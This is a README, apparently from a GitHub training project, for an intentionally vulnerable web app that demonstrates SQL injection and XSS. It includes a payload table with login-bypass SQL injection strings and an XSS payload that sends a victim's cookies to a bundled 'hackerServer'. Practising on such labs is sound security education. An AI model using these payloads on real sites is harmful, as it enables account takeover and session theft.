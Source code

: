 ## (VWA) Vulnerable Web Application 🚀

That application demonstrates top 5 (**SQli, XSS, Broken Access Control, CSRF, SSRF**) critical web vulnerabilities. You can run and test them out!

_The whole project consist of mini projects with each vulnerability_

P.S: I tried not to use any databases for simpler and faster installation but for some vulnerabilities it was required such as: **SQli**

---

## Quick Installation

(Go to folder with mini project and do **npm i**)

```plaintext
cd VWA/sqli/1
npm i

cd VWA/xss/1
npm i

cd VWA/xss/hackerServer
npm i
```

If you want to test SQli you need to create **postgresql** database with that credentials

![](https://33333.cdn.cke-cs.com/kSW7V9NHUXugvhoQeFaf/images/bacbbf3d5f416e47b3d1f8b3c3ac4e537c5457ba8868a574.png)

---

## Payloads

| Vulnerability | Payload | Where to Type | What it do |
| --- | --- | --- | --- |
| SQli | ' OR '1' = '1 | Password field | Allow to get all users |
| SQli | admin' -- | Password field | Allow to login only by username |
| XSS | \<svg onload=alert(1)> | PostInfo field | Simple alert |
| XSS | \<svg onload='var i = new Image(); i.src="http://localhost:3001/acceptCookie?cookie="+btoa(document.cookie);'> | PostInfo field | Allow to send user cookie to **hackerServer** website |

---

## To-Do

*   [x] SQli vuln.
*   [x] XSS vuln.
*   [ ] Broken Access Control vuln.
*   [ ] CSRF vuln.
*   [ ] SSRF vuln.
